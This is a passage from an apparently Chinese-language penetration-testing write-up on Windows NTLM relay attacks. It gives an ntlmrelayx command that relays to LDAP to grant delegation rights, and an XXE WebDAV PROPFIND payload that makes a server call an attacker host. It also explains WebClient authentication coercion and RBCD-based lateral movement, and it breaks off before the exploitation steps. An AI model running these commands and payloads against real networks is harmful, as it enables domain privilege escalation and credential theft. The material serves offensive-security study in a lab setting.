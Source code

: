 ![image-20230801200325895](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308012003009.png)

启动 ntlmrealyx

```shell
ntlmrelayx.py -t ldap://192.168.30.10 --delegate-access --escalate-user 'TEST$'
```

payload

```http
PROPFIND /webdav/ HTTP/1.1
Host: 192.168.30.20:8080
Connection: close
Content-Length: 249

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE propertyupdate [
<!ENTITY loot SYSTEM "http://192.168.30.40/"> ]>
<D:propertyupdate
    xmlns:D="DAV:">
    <D:set>
        <D:prop>
            <a
                xmlns="http://192.168.30.40/">&loot;
            </a>
        </D:prop>
    </D:set>
</D:propertyupdate>
```

![image-20230801172615159](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011726216.png)

![image-20230801172627011](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011726071.png)

### WebDAV

参考文章: [https://whoamianony.top/posts/privilege-escalation-ntlmrelay2self-over-http-webdav/](https://whoamianony.top/posts/privilege-escalation-ntlmrelay2self-over-http-webdav/)

Windows 使用 WebClient 服务实现 WebDAV, 请求的 UNC 路径格式为 `\\evilhost@80\webdav\`

WebClient 在 Workstation 系统中是默认启用的, 但需要手动启动服务, 而 Server 系统需要通过附加功能来安装并启用 WebDAV 组件

原理:

1. 客户端发出一个 OPTIONS 方法来发现服务器支持的请求方法
2. 如果支持 PROPFIND 方法, 则发出 PROPFIND 请求来发现目录结构
3. 如果服务器以 401 Unauthorized 响应并通过 WWW-Authenticate 标头请求 NTLM 身份验证, 则 WebDAV 将继续启动 NTLM 质询响应身份验证, 最终将 Net-NTLM Hash 提供给服务器

默认情况下, WebClient 仅对本地内部网 (Local Intranet) 或受信任的站点 (Trusted Sites) 列表中的目标自动使用当前用户凭据进行 NTLM 认证

因此需要以任意域用户的权限在内网 DNS 上添加一条恶意的 A 记录, 然后通过强制认证配合 NTLM Relay to LDAP 配置 RBCD 实现横向移动

利用过程如下
